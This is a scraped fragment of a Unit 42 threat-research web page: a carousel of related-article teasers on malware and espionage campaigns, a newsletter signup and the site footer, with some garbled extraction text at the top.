<iteten" href"/sections/pop-culture/" data-eric-actionclick sa culture"stop cultur
dan sobre te tref/sections/food/atrics-actor//Cubes
Mate"/sections/art desig data-etrics-artinctus art & designsart Design/up
Itsecties/pengartstatic pengarterforsing
free" c
All songs co
href="https://www.pr.org/sections/clic//org/sections/music-features" data-trics-action features">
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### DarkGate:Dancing the Samba With Alluring Excel Files](https://unit42.paloaltonetworks.com/darkgate-malware-uses-excel-files/)
* [Sandbox](https://unit42.paloaltonetworks.com/tag/sandbox/"Sandbox")
* [Microsoft Excel](https://unit42.paloaltonetworks.com/tag/microsoft-excel/"Microsoft Excel")
* [Malware-as-a-service](https://unit42.paloaltonetworks.com/tag/malware-as-a-service/"malware-as-a-service")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/darkgate-malware-uses-excel-files/"DarkGate:Dancing the Samba With Alluring Excel Files")






![A laptop on a desk displaying a vibrant graphical interface with a circular red pattern, possibly representing cybersecurity or data analysis.The laptop is illuminated by the screen’s glow in a dimly lit room, which also shows a blurred background suggesting a secondary monitor and small desk objects.](0_image_15.png)




[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Dissecting GootLoader With Node.js](https://unit42.paloaltonetworks.com/javascript-malware-gootloader/)
* [Sandbox](https://unit42.paloaltonetworks.com/tag/sandbox/"Sandbox")
* [Memory detection](https://unit42.paloaltonetworks.com/tag/memory-detection/"memory detection")
* [Anti-analysis](https://unit42.paloaltonetworks.com/tag/anti-analysis/"anti-analysis")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/javascript-malware-gootloader/"Dissecting GootLoader With Node.js")






![Constellation image representing the constellation schema used by Palo Alto Networks Unit 42 to track nation-state and cybercrime threat actor groups](0_image_16.png)




[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/07/threat-actor-groups.svg)
 Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/)
[#### Threat Actor Groups Tracked by Palo Alto Networks Unit 42](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/)
* [Academic Serpens](https://unit42.paloaltonetworks.com/tag/academic-serpens/"Academic Serpens")
* [Agent Serpens](https://unit42.paloaltonetworks.com/tag/agent-serpens/"Agent Serpens")
* [Agonizing Serpens](https://unit42.paloaltonetworks.com/tag/agonizing-serpens/"Agonizing Serpens")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/"Threat Actor Groups Tracked by Palo Alto Networks Unit 42")








[comment]:<> (===START IMAGE DETECTED===)

![The image depicts a close-up view of a circuit board featuring microchips and electronic components with bright red digital data streams emanating from the surface, symbolizing high-speed data processing and technology innovation.](0_image_17.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
THAN
O
0
の
0
0
0
0
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Attackers Exploiting Public Cobalt Strike Profiles](https://unit42.paloaltonetworks.com/attackers-exploit-public-cobalt-strike-profiles/)
* [Cobalt Strike](https://unit42.paloaltonetworks.com/tag/cobalt-strike/"Cobalt Strike")
* [Malleable C2 profile](https://unit42.paloaltonetworks.com/tag/malleable-c2-profile/"malleable C2 profile")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/attackers-exploit-public-cobalt-strike-profiles/"Attackers Exploiting Public Cobalt Strike Profiles")








[comment]:<> (===START IMAGE DETECTED===)

![A digital image depicting a skull formed by binary code, composed of ones and zeros, in shades of blue against a black background.The binary numbers appear to float and overlay each other, creating a visually striking and thematic technological motif.](0_image_18.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
01
01 10000
0
00111
00011
10010
1 1 1 1 0 0 1
00011
11001111
00011
0010010
0101110100
0001000
2040
10103000 10 0 0 0 1 1 1 0 0 0 0
100110000110
10011010
0110
1
010
00111
10101000 10
11
11040D1G
11010001
161100
11111001
11:110+1
11111001
100111 1
100110000110
༠ 1༠༠ąཟྭ*bbbba4%
11113080
119
toc
11010
01300
01100
01100
01100
1010
1 Ad 11001010
108
101010UUTITO
1111
Ո
U
0
1
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/)
* [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/"Advanced Persistent Threat")
* [Backdoor](https://unit42.paloaltonetworks.com/tag/backdoor/"backdoor")
* [China](https://unit42.paloaltonetworks.com/tag/china/"China")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/"Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia")






![A laptop on a desk displaying a vibrant graphical interface with a circular red pattern, possibly representing cybersecurity or data analysis.The laptop is illuminated by the screen’s glow in a dimly lit room, which also shows a blurred background suggesting a secondary monitor and small desk objects.](0_image_19.png)




[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Payload Trends in Malicious OneNote Samples](https://unit42.paloaltonetworks.com/payloads-in-malicious-onenote-samples/)
* [Malvertising](https://unit42.paloaltonetworks.com/tag/malvertising/"malvertising")
* [Microsoft OneNote](https://unit42.paloaltonetworks.com/tag/microsoft-onenote/"Microsoft OneNote")
* [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/"phishing")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/payloads-in-malicious-onenote-samples/"Payload Trends in Malicious OneNote Samples")











* ![Slider arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/slider-arrow-left.svg)
* ![Slider arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/slider-arrow-left.svg)









![Close button](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/close-modal.svg)

![Enlarged Image](#no-image)




















![Newsletter](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/Revitalized_newsletter-Image-desktop-copy-1.webp)




![UNIT 42 Small Logo](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/palo-alto-logo-small.svg)
 Get updates from Unit 42
 
Peace of mind comes from staying ahead of threats.Contact us today.--------------------------------------------------------------------













 Your Email
 






 By submitting this form, you agree to our
 [Terms of Use](https://www.paloaltonetworks.com/legal-notices/terms-of-use "Terms of Use") 
 and acknowledge our
 [Privacy Statement.](https://www.paloaltonetworks.com/legal-notices/privacy "Privacy Statement") 






 Invalid captcha!
 



 Subscribe
 ![Right Arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/right-arrow.svg)
![loader](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-loader.svg)
















### Products and services





* [Network Security Platform](https://www.paloaltonetworks.com/network-security "Network Security Platform")
* [CLOUD DELIVERED SECURITY SERVICES](https://www.paloaltonetworks.com/network-security/security-subscriptions "CLOUD DELIVERED SECURITY SERVICES")
* [Advanced Threat Prevention](https://www.paloaltonetworks.com/network-security/advanced-threat-prevention "Advanced Threat Prevention")
* [DNS Security](https://www.paloaltonetworks.com/network-security/advanced-dns-security "DNS Security")
* [Data Loss Prevention](https://www.paloaltonetworks.com/network-security/enterprise-data-loss-prevention "Data Loss Prevention")
* [IoT Security](https://www.paloaltonetworks.com/network-security/enterprise-iot-security "IoT Security")




* [Next-Generation Firewalls](https://www.paloaltonetworks.com/network-security/next-generation-firewall "Next-Generation Firewalls")
* [Hardware Firewalls](https://www.paloaltonetworks.com/network-security/next-generation-firewall-hardware "Hardware Firewalls")
* [Strata Cloud Manager](https://www.paloaltonetworks.com/network-security/strata-cloud-manager "Strata Cloud Manager")




* [SECURE ACCESS SERVICE EDGE](https://www.paloaltonetworks.com/sase "SECURE ACCESS SERVICE EDGE")
* [Prisma Access](https://www.paloaltonetworks.com/sase/access "Prisma Access")
* [Prisma SD-WAN](https://www.paloaltonetworks.com/sase/sd-wan "Prisma SD-WAN")
* [Autonomous Digital Experience Management](https://www.paloaltonetworks.com/sase/adem "Autonomous Digital Experience Management")
* [Cloud Access Security Broker](https://www.paloaltonetworks.com/sase/next-gen-casb "Cloud Access Security Broker")
* [Zero Trust Network Access](https://www.paloaltonetworks.com/sase/ztna "Zero Trust Network Access")






* [Code to Cloud Platform](https://www.paloaltonetworks.com/prisma/whyprisma "Code to Cloud Platform")
* [Prisma Cloud](https://www.paloaltonetworks.com/prisma/cloud "Prisma Cloud")
* [Cloud-Native Application Protection Platform](https://www.paloaltonetworks.com/content/pan/en_US/prisma/cloud/cloud-native-application-protection-platform "Cloud-Native Application Protection Platform")






* [AI-Driven Security Operations Platform](https://www.paloaltonetworks.com/cortex "AI-Driven Security Operations Platform")
* [Cortex XDR](https://www.paloaltonetworks.com/cortex/cortex-xdr "Cortex XDR")
* [Cortex XSOAR](https://www.paloaltonetworks.com/cortex/cortex-xsoar "Cortex XSOAR")
* [Cortex Xpanse](https://www.paloaltonetworks.com/cortex/cortex-xpanse "Cortex Xpanse")
* [Cortex XSIAM](https://www.paloaltonetworks.com/cortex/cortex-xsiam "Cortex XSIAM")
* [External Attack Surface Protection](https://www.paloaltonetworks.com/cortex/cortex-xpanse/attack-surface-management "External Attack Surface Protection")
* [Security Automation](https://www.paloaltonetworks.com/cortex/security-operations-automation "Security Automation")
* [Threat Prevention, Detection & Response](https://www.paloaltonetworks.com/cortex/detection-and-response "Threat Prevention, Detection & Response")






* [Threat Intel and Incident Response Services](https://www.paloaltonetworks.com/unit42 "Threat Intel and Incident Response Services")
* [Proactive Assessments](https://www.paloaltonetworks.com/unit42/assess "Proactive Assessments")
* [Incident Response](https://www.paloaltonetworks.com/unit42/respond "Incident Response")
* [Transform Your Security Strategy](https://www.paloaltonetworks.com/unit42/transform "Transform Your Security Strategy")
* [Discover Threat Intelligence](https://www.paloaltonetworks.com/unit42/threat-intelligence-partners "Discover Threat Intelligence")







### Company





* [About Us](https://www.paloaltonetworks.com/about-us "About Us")
* [Careers](https://jobs.paloaltonetworks.com/en/"Careers")
* [Contact Us](https://www.paloaltonetworks.com/company/contact-sales "Contact Us")
* [Corporate Responsibility](https://www.paloaltonetworks.com/about-us/corporate-responsibility "Corporate Responsibility")
* [Customers](https://www.paloaltonetworks.com/customers "Customers")
* [Investor Relations](https://investors.paloaltonetworks.com/"Investor Relations")
* [Location](https://www.paloaltonetworks.com/about-us/locations "Location")
* [Newsroom](https://www.paloaltonetworks.com/company/newsroom "Newsroom")







### Popular links





* [Blog](https://www.paloaltonetworks.com/blog/"Blog")
* [Communities](https://www.paloaltonetworks.com/communities "Communities")
* [Content Library](https://www.paloaltonetworks.com/resources "Content Library")
* [Cyberpedia](https://www.paloaltonetworks.com/cyberpedia "Cyberpedia")
* [Event Center](https://events.paloaltonetworks.com/"Event Center")
* [Manage Email Preferences](https://start.paloaltonetworks.com/preference-center "Manage Email Preferences")
* [Products A-Z](https://www.paloaltonetworks.com/products/products-a-z "Products A-Z")
* [Product Certifications](https://www.paloaltonetworks.com/legal-notices/trust-center/tech-certs "Product Certifications")
* [Report a Vulnerability](https://www.paloaltonetworks.com/security-disclosure "Report a Vulnerability")
* [Sitemap](https://www.paloaltonetworks.com/sitemap "Sitemap")
* [Tech Docs](https://docs.paloaltonetworks.com/"Tech Docs")
* [Unit 42](https://unit42.paloaltonetworks.com/"Unit 42")
* [Do Not Sell or Share My Personal Information](https://panwedd.exterro.net/portal/dsar.htm?target=panwedd "Do Not Sell or Share My Personal Information")












[![](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/palo-alto-footer-logo.svg)](https://www.paloaltonetworks.com/"Footer Nav")




* [Privacy](https://www.paloaltonetworks.com/legal-notices/privacy "Privacy")
* [Trust Center](https://www.paloaltonetworks.com/legal-notices/trust-center "Trust Center")
* [Terms of Use](https://www.paloaltonetworks.com/legal-notices/terms-of-use "Terms of Use")
* [Documents](https://www.paloaltonetworks.com/legal "Documents")



  


 Copyright © 2024 Palo Alto Networks.All Rights Reserved
 


* [![YouTube](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/youtube-black.svg)](https://www.youtube.com/user/paloaltonetworks "YouTube")
* [![Twitter](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/x-icon-black.svg)](https://twitter.com/Unit42_Intel "X")
* [![Facebook](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/Facebook_Icon.svg)](https://www.facebook.com/PaloAltoNetworks/"Facebook")
* [![LinkedIn](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/LinkedIn_Icon.svg)](https://www.linkedin.com/company/palo-alto-networks "LinkedIn")
* [![Podcast](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/Podcast.svg)](https://unit42.paloaltonetworks.com/unit-42-threat-vector-podcast/"Podcast")




![Globe icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/globe-icon.svg)

 EN
 
![Down arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/down-arrow.svg)
* Select your language
* [USA (ENGLISH)](https://unit42.paloaltonetworks.com/fighting-ursa-car-for-sale-phishing-lure/)
* [JAPAN (日本語)](https://unit42.paloaltonetworks.jp/fighting-ursa-car-for-sale-phishing-lure/)















![Play](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/player-play-icon.svg)
![Pause](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/player-pause-icon1.svg)


![Minimize](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-minimize.svg)


![Close button](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/close-modal.svg)



 Your browser does not support the video tag. 

### Default Heading


[Read the article
 ![Right Arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/right-arrow.svg)](# "Right Arrow Icon")






 Seekbar
 







![Play](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/player-play-icon.svg)
![Pause](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/player-pause-icon1.svg)




![Volume](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-volume.svg)





 Volume
 




![Minimize](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-minimize.svg)
















[comment]:<> (===END PAGE 1===)
